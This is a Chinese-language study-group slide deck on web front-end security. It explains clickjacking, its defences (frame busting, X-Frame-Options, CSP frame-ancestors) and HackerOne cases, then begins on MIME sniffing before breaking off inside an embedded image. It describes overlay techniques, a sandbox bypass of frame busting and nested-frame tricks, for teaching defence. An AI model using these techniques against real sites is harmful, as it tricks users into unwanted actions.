




# Beyond XSS:探索前端資安宇宙 ch5-1~5-6

## ClickJacking、MIME sniffing、前端供應鏈攻擊、前端攻擊在 Web3 的應用、XS-Leaks、XS-Leaks 的進階應用

                                     Speaker : Wanye

                                     Note Taker :

                                     2025/01/23 @Tech-Book-Community

---

# Hi! I'm Wanye

- 剛滿一年的前端工程師
- 興趣 : 聽音樂、有時候會看劇、看漫畫

---

# 前次回顧

---

# <h1>5-1 你的畫面不是你的畫面:ClickJacking 點擊劫持<h1/>

ClickJacking，中文又稱點擊劫持。
指的是你以為點擊的是 A 網站的內容，但實際上你的點擊被「劫持」到 B 網站。
例如，若背後是一個銀行轉帳頁面，帳號與金額都已填好，只需點一下按鈕就會完成轉帳，這可能造成嚴重後果。（這只是舉例而已，不過從這個案例就能知道為什麼轉帳需要第二層驗證了）。

---

# ClickJacking 攻擊原理

### 什麼是 ClickJacking?

把兩個網頁疊在一起，透過 CSS 讓使用者看見的是 A 網頁，但點到的卻是 B 網頁。

### 手法:

用 ifram 將 B 網頁崁入然後設定透明度 0.001，再用 css 打自己的內容疊上去。

### 問題 :

表面按鈕顯示「確定取消」，實際點擊觸發「刪除帳號」。


---

# 攻擊範例:

- 以 「更改 email」功能設計的 clickjacking 攻擊，留下原網頁的 input，其他都用 CSS 蓋掉，按鈕的部分用 pointer-events:none 讓事件穿透。
- 表面上看起來是一個輸入 email 訂閱資訊的頁面，但實際背後運作的是「修改 email」的功能。
  

---

# 點擊劫持的攻擊流程

1. 把目標網頁嵌入惡意網頁之中（透過 iframe 或其他類似標籤）
2. 在惡意網頁上用 CSS 把目標網頁蓋住，讓使用者看不見
3. 誘導使用者前往惡意網頁並且做出操作（輸入或點擊等等）
4. 觸發目標網頁行為，達成攻擊

小結 : clickjacking 的實現取決於攻擊者的設計巧妙程度與目標網站的交互複雜性。防範此類攻擊需要網站和使用者的共同努力，然而這種攻擊需要達成，<span style="background:#efefef">使用者一定需要在目標網站是登入狀態</span>。

---

# Clickjacking 的防禦方式

- 自己用 JavaScript 檢查
- 透過 response header 告知瀏覽器這個網頁是否能被嵌入。

---

# Frame busting(自己用 JavaScript 檢查)

```
if (top !== self) {
  top.location = self.location
}
```

- 每個網頁都有自己的 window，self 總是指向當前網頁的 window。

- 如果網頁被獨立開啟，top 和 self 會指向相同的 window。
- 如果網頁嵌套於 iframe 中，top 會指向外層（最上層）的 window。

---

# iframe 的 sandbox 屬性

- 功用 : 限制 iframe 的行為，避免惡意嵌套攻擊
- 常用限制:
  - allow-forms，允許提交表單
  - allow-scripts，允許執行 JS
  - allow-top-navigation，允許改變 top location
  - allow-popups，允許彈出視窗

---

# 範例 :


---

- 情境 : 在 localhost 的 index.html 裡面寫了:

```
<iframe src="https://example.com"></iframe>
<iframe src="https://huli.tw"></iframe>
```

- iframe 中的兩個網頁 (綠色、黃色)

  - 兩個不同的 window
  - 存取 top 時，指向主頁 localhost/index.html 的 window

- 檢查 -透過 if (top !== self) 判斷是否在 iframe 中，是的話則改變 top.location ，將最上層導向其他網站。

- 這邊要注意的是會被 iframe 的 sandbox 屬性繞過。這個屬性之前在「就算只有 HTML 也能攻擊？」那篇有提過了。

---

# 繞過方式

```
<iframe src="./busting.html" sandbox="allow-forms">
```

- 防護失敗: busting.html 做了 top==self 的檢查也沒用。
- 原因 : 沒有 allow-script 無法執行 JS ，但表單可正常送出。
- 接下來就要介紹其他人在現有基礎上改良也更實用的方式。

---

# 改良後的方式(程式碼取自：[Wikipedia - Framekiller](https://en.wikipedia.org/wiki/Framekiller))

```<style>html{display:none;}</style>
<script>
   if (self == top) {
       document.documentElement.style.display = 'block';
   } else {
       top.location = self.location;
   }
</script>
```

- 功用: 一定需要執行 JS 或通過 JS 檢查才會開啟，否則網頁會整個隱藏。

- 缺點: 如果使用者主動關閉瀏覽器的 JavaScript 功能，網頁也無法顯示，導致不好的用戶體驗。

- 在 2008 年 clickjacking 剛出來的時候，相關防禦方式還沒有這麼完整，所以只好用這些比較像是 workaround 的解法。而現在，瀏覽器已經支援了其他更好的方式來阻擋網頁被嵌入。

---

# X-Frame-Options

- X-Frame-Options 是一種 HTTP 回應 Header，於 2009 年由 IE8 首先實作，並於 2013 年正式標準化 (RFC 7034)。

- header 的三個值:

  - DENY：禁止任何嵌入，包含 <iframe>、<frame>、<object>、<applet> 或是 <embed> 這些 tag 都不行
  - SAMEORIGIN: 僅允許 same origin
  - ALLOW-FROM : 允許特定 origin 嵌入（支援度低，主流瀏覽器已停止支援）。

---

# 範例:

- 情境 : 有些瀏覽器只會檢查「上一層」與「最上層」，而不是每層都檢查，例如 A 嵌入 B 嵌入 C 嵌入 D，以此類推

```
example.com/A.html
--> attacker.com
    --> example.com/B.html
        --> example.com/target.html
```

- 問題:
  - 如果瀏覽器僅檢查上一層 (B.html)與最上層(A.html)，會判定嵌入是合法的，因為 B.html 與 target.html 同源，無法完全防止多層嵌套攻擊。
  - ALLOW-FROM 支援不足：主流瀏覽器已停止支援該屬性
  - 現已被 CSP 取代

---

# CSP : frame-ancestors

### CSP 的 frame-ancestors 指示 :

- frame-ancestors 'none' → 禁止任何嵌入（對應 X-Frame-Options 的 DENY）。
- frame-ancestors 'self' → 只允許 same origin 網頁嵌入（對應 SAMEORIGIN）。
- frame-ancestors https://a.example.com https://b.example.com → 允許多個指定 origin 嵌入（對應 ALLOW-FROM）。

### 與 frame-src 的區別

- frame-ancestors：控制「哪些網頁可以嵌入我」
- frame-src：控制「我可以嵌入哪些來源」。

---

### 範例一 :

- 在 index.html 設定 :

```
Content-Security-Policy: frame-src 'none';
```

- 結果: 頁面無法載入任何 iframe，無論目標頁面有無設置任何規則。

---

### 範例二 :

- index.html 設置：

```
Content-Security-Policy: frame-src https://example.com;
```

- 但 example.com 也有設置:

```
Content-Security-Policy: frame-ancestors 'none';
```

- 結果:index.html 還是沒有辦法用 iframe 把 example.com 載入，因為對方拒絕了。

---

# 防禦總結

### 因為支援度的關係，所以最佳防禦策略：X-Frame-Options 與 CSP :

- 不允許被 iframe 載入

```
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

- 只允許被 same-origin 載入

```
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
```

---

- 允許指定 origin

```
X-Frame-Options: ALLOW-FROM https://example.com/
Content-Security-Policy: frame-ancestors https://example.com/
```

### 連覽器幫忙做的隱形防禦 SameSite=Lax cookie

- 被嵌入的網頁（如 iframe）不會攜帶 Cookie 與伺服器互動。
- 不符合點擊劫持攻擊的前提「使用者必須是登入狀態」

---

# 實際案例一 : Yelp

- 2018 年，使用者 hk755a 向 Yelp 回報兩個 Clickjacking 漏洞 :
  - [ClickJacking on IMPORTANT Functions of Yelp](https://hackerone.com/reports/305128)
  - [ CRITICAL-CLICKJACKING at Yelp Reservations Resulting in exposure of victim Private Data (Email info) + Victim Credit Card MissUse.](https://hackerone.com/reports/305128)

### 其中一篇情境(餐廳訂位頁面) :

- 訂位頁面會自動帶入使用者個資（如 Email）
- 點擊「訂位按鈕」即可完成訂位。

### 使用者按下訂位後的影響 :

- 看到訂位的人的資料，偷到他們的 email
- 要取消訂位的話就要付取消訂位的費用，攻擊者可以拿到錢

---

# 實際案例二 : twitter

小案例一 : [Highly wormable clickjacking in player card](https://hackerone.com/reports/85624)

- Twitter 已設置：

```
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
```

- 漏洞:當時有些瀏覽器實作檢查時，只檢查 top window 是不是符合條件

```
twitter.com => attacker.com => twitter.com
```

影響:

- 發生在 Twitter 的 timeline，達成「蠕蟲」效果：

  - (1) 被劫持後的用戶自動發推 (2) 推文讓更多用戶受害，進一步擴散。

---

小案例二 :[Twitter Periscope Clickjacking Vulnerability](https://hackerone.com/reports/591432)

- 網頁僅設置:

```
X-Frame-Options: ALLOW-FROM
```

- 漏洞:

  - ALLOW-FROM 支援不足，現代瀏覽器已不支持該屬性。
  - 沒有設置 CSP

- 影響 :
  網站上有一個「停用帳號」的按鈕，可以誘導使用者讓他們在不知情的狀況下點擊
- 解法 :
  設置 CSP，使用 frame-ancestors 。

---

# 實際案例三 : Tumblr

### 漏洞描述：

將 Self-XSS 與 Clickjacking 串接組成攻擊鍊，透過 Clickjacking 觸發 self XSS。

### 攻擊方式

- 誘導使用者點擊按鈕->背後執行隱藏操作，偷偷複製 XSS Payload
- 引導使用者在 input 中貼上 Payload->input 其實是「使用者名稱」的欄位
- 使用者按下「更新資料」按鈕->將 XSS Payload 保存為使用者名稱

### 注意

大多都是相容性問題，而不是沒設定，所以設定正確很重要。

---

# 無法防禦的 clickjacking

### lickjacking 防禦的方式說穿了就是不要讓別人可以嵌入你的網頁，但如果這個網頁的目的就是讓別人嵌入呢？

情境:
有些網頁本身是設計來嵌入其他網站的（如 Facebook widget 的「讚」與「分享」按鈕）

防禦方法 :
增加使用者的確認步驟，例如點擊按鈕後彈出一個 Popup 確認視窗，要求用戶二次確認。

更多細節:

- [Clickjacking Attack on Facebook: How a Tiny Attribute Can Save the Corporation](https://www.invicti.com/blog/web-security/clickjacking-attack-on-facebook-how-tiny-attribute-save-corporation/)
- [Facebook like button click](https://stackoverflow.com/questions/61968091/facebook-like-button-click)

---

# 小結

### X-Frame-Options、CSP:frame-ancestors、Frame Busting 比較表格



---

# 章節回顧

1.  Clickjacking 是如何利用 iframe 達成攻擊的？請說明其基本原理。
2.  CSP 的 frame-ancestors 指令如何幫助防禦 Clickjacking？請列出三種可能的設定值並簡單說明其效果。

---

# 5-2 結合 MIME sniffing 發起攻擊

### 什麼是 MIME sniffing?

- 每一個 response 都會有 Content-Type Header。
- Content-Type Header：告訴瀏覽器回應的 MIME type（如 text/html、application/json）。
- MIME sniffing：如果沒有 Content-Type 時，瀏覽器會依檔案內容推測 MIME type。

---

# MIME sniffing 初體驗

### 範例一

使用瀏覽器會看到字體變大而且變粗體的 hello 字樣->把 response 當成是網頁來渲染。

```
const express = require('express');
const app = express();

app.get('/', (req, res) => {
  res.write('<h1>hello</h1>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

![bg contain right:40% ](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAakAAACuCAYAAACMXvJXAAABXGlDQ1BJQ0MgUHJvZmlsZQAAKJFtkE1LAnEQxp81QykLD9EhOngJCrYQlQ7dzNAED4smvUDQupoGvvxbNyK69hmiT9Cpc3aULn0Ao8BjBF0DwQ4l2/PXSq0GhvnxMDM8M4DDqwtRdAIolS0zGVv1bW3v+FwvcGMCk1AQ1I2qCGtagi34rsPRfmAfo7Eod502nuaV5nRLvfW8Rd3X/r/9QzGWzVUN1g/msiFMC1BCZO3YEpLPyFMmTZEvJOd7fCU50+N6t2cjGSHfk71GQc+Sn8lqZkDPD3CpeGR8eZDuPblyOsU6w5xFAjH4EIeGFGsUaSoJrGONf/p/LtSdi6ACgROYOEAeBVicDlMRKCLX3ViGgSWo5AD8zKD89+8/9rVD3rcSBxylvranATev8sy+NqfSyh1Q3xW6qf98V2k7q/vBQI/Ha8DouW23NgHXAtB5tO33mm13LoGRJmfbn5ONY5tkAuSrAAAAVmVYSWZNTQAqAAAACAABh2kABAAAAAEAAAAaAAAAAAADkoYABwAAABIAAABEoAIABAAAAAEAAAGpoAMABAAAAAEAAACuAAAAAEFTQ0lJAAAAU2NyZWVuc2hvdICdXxcAAAHWaVRYdFhNTDpjb20uYWRvYmUueG1wAAAAAAA8eDp4bXBtZXRhIHhtbG5zOng9ImFkb2JlOm5zOm1ldGEvIiB4OnhtcHRrPSJYTVAgQ29yZSA2LjAuMCI+CiAgIDxyZGY6UkRGIHhtbG5zOnJkZj0iaHR0cDovL3d3dy53My5vcmcvMTk5OS8wMi8yMi1yZGYtc3ludGF4LW5zIyI+CiAgICAgIDxyZGY6RGVzY3JpcHRpb24gcmRmOmFib3V0PSIiCiAgICAgICAgICAgIHhtbG5zOmV4aWY9Imh0dHA6Ly9ucy5hZG9iZS5jb20vZXhpZi8xLjAvIj4KICAgICAgICAgPGV4aWY6UGl4ZWxZRGltZW5zaW9uPjE3NDwvZXhpZjpQaXhlbFlEaW1lbnNpb24+CiAgICAgICAgIDxleGlmOlBpeGVsWERpbWVuc2lvbj40MjU8L2V4aWY6UGl4ZWxYRGltZW5zaW9uPgogICAgICAgICA8ZXhpZjpVc2VyQ29tbWVudD5TY3JlZW5zaG90PC9leGlmOlVzZXJDb21tZW50PgogICAgICA8L3JkZjpEZXNjcmlwdGlvbj4KICAgPC9yZGY6UkRGPgo8L3g6eG1wbWV0YT4KqSRyAAAADwNJREFUeAHt3WeoHFUbB/ATDTZQox/UqKjYSxRBBBWxfxUVbNiIKFhQwYIiCjYEEQRRP6gg9oKiqCiCHyxgYkXE2HuP5oPYC2ruu2d9c9+7s7P3bm5u3Of1+Q2E7MyenX3O7xzun9mdmZ21YOHCsWIhQIAAAQIBBWaNdZaAdSmJAAECBAiUVRgQIECAAIGoAkIq6sioiwABAgQcSZkDBAgQIBBXwJFU3LFRGQECBNILCKn0UwAAAQIE4goIqbhjozICBAikFxBS6acAAAIECMQVEFJxx0ZlBAgQSC8gpNJPAQAECBCIKyCk4o6NyggQIJBeQEilnwIACBAgEFdASMUdG5URIEAgvYCQSj8FABAgQCCugJCKOzYqI0CAQHoBIZV+CgAgQIBAXAEhFXdsVEaAAIH0AkIq/RQAQIAAgbgCQiru2KiMAAEC6QWEVPopAIAAAQJxBYRU3LFRGQECBNILCKn0UwAAAQIE4grMHqa0a665pixevLin6bnnnlvmzp3bsy3aysMPP1yee+658bJWXXXVUuveYIMNxrfVB4sWLSq33357z7a99967HHrooT3brBAgQIDAPyswVEjdcccd5fXXX++pbP78+eFD6oEHHij33HNPT9177bVXOeSQQ3q2vfDCC6UG8cRl6dKlQmoiiMcECBAYgYCP+0aA7i0JECBAYDgBITWck1YECBAgMAIBITUCdG9JgAABAsMJCKnhnLQiQIAAgREICKkRoHtLAgQIEBhOQEgN56QVAQIECIxAYKhT0Cer66+//upei/TUU0+VL774ovzyyy9lu+22K9tvv33Zcccdyy677DLZy1uf+/nnn8ubb77ZvX7ptddeK0uWLOle27ThhhuWPffcs9RrmFZfffXW145i45dfflnefvvtbr1vvPFGt4R58+aVnXfeuWuw8cYbj6Is70mAAIH/e4EVCqlXXnmlHHvsseW9994bCHHccceV66+/vsyZM2dgm2VPfPDBB+W8884rjzzyyLJNA/+/8sory9lnn13WXHPNgW1W5hM1nO+9995y4YUXdsN5svfadNNNy9VXX12OPPLIUi8othAgQIDAcALT/rivBsnuu+8+aUDVEu66667uEcVHH300aUWPPvpo2WabbYYKqLqjiy66qOy6665TBsSkbzrNJ3/88cdy8MEHl+OPP36o969HmMccc0z3IuKffvppmu/qZQQIEMgnMO2Quvjii4fWqn+kr7jiioHtn3zyyb67QAxsPOGJegS37777lq+//nrC1pX78I8//igHHnhgeeKJJ5b7jR5//PFywAEHlLoPCwECBAhMLTDtkJq46/qH95xzzul+nNW8L96ydrfddlt59913l62O///rr7+Wk046aXx94oP6nVZ97vTTTy9HH3103z33att6hFY/+vunlvrR5csvv9z6dttuu22pH2/Wf/Vx21Jfe8MNN7Q9ZRsBAgQINAXGhlg6Jz+MdV7X92/ttdceW7BgQc8evvvuu7HOdy99bevrO2HS07au1G1t+77xxhvH/vzzz572nRMqxi699NLW9p9//nlP27rS+Yitr23nprN97W6++ea+dp3vu/raffrpp33tau3V4fnnn+9rX23qc239a6u3bwc2ECBAILnACh1JPfbYY6XesHXisu6665a777671JMFmssnn3zSs+mzzz7rfrfUs7GzUk8yOOWUU/pOMlhrrbXKJZdc0j2yar6meYPY5vMzsV6PFptLJ4TKSy+9VPbYY4/mU12bF198sdQ2zaXejd1CgAABApMLTDuk9ttvv7LPPvu07n327Nnds/SaTzZDqoZcc6nhVs/am2y56qqr+p6+9tpry/fff9+3faY21I8lH3zwwb7ddY7suqfb9z3x3w077LBDufzyy/uevv/++8vvv//et90GAgQIEPifwLRDqn5HNNnSdn3Uhx9+2POSd955p2e9rhx++OGlhtxkSz0yqd+DNZepziBstl+e9Xp6fNty4okntm3u2VbbtB1NNT16XmSFAAECBMq0Q2rzzTeflK/tAtbm6df1gt3mUo+IZs2aNeW/evFwc6kfH66spe1asHo0ud566035lvUj0ObHovVFbSeSTLkzDQgQIJBIYNoh1RZCE93WWWediautjwedJdfaeIiNKzOk2o76tthiiyGq+rvJlltu2de23qXCQoAAAQKDBaYdUqusMu2XdqvpnLlX6kWxM7l8/PHHM7m7nn199dVXPet1ZdDp9n0NB7Stt1OyECBAgMBggcm//Bn8uhV+pn7vVE+SqBf6Npfl+eM/8bU//PDD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)

---

### 範例二

把 h1 換成 h2->以純文字顯示了

```
const express = require('express');
const app = express();

app.get('/', (req, res) => {
  res.write('<h2>hello</h2>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

![bg contain right:40% ](data:image/png;base64,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